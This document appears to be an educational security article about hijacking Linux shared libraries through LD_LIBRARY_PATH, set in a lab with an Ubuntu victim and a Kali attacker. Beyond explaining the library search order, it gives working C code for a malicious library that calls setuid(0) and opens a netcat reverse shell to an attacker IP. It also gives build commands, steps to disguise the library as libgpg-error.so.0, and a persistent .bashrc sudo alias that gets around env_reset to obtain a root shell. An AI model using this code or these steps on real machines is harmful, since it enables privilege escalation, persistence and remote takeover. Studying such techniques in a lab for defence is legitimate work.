 # Hijcaking Shared Libraries
* * *
## Intoduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the `.so` (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries

When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide

Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library

First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library

To compile our shared library, we use the following commands:

```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```

- `-Wall`: Enables all compiler's warning messages.
- `-fPIC`: Generates position-independent code, suitable for shared libraries.
- `-c`: Compiles the code without linking.
- `-o`: Specifies the output file name.

### Create the Shared Library

After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`

```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application

After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:

```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/ldd_ps.png)

The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment

Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:

```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/cp.png)

### Executing the Target Program

Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.

```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the target's machine. 

```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/userpriv.png)

However, if the user runs `ps` command with sudo, no reverse shell will be received at the attacker side, (why is that?).

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/no_reverse_shell.png)


## Gaining Root Shell

One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/sudoers.png)

One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
- Temporary Alias:

```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc

```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`

```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/rootShell.png)


Happy Learning... <br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
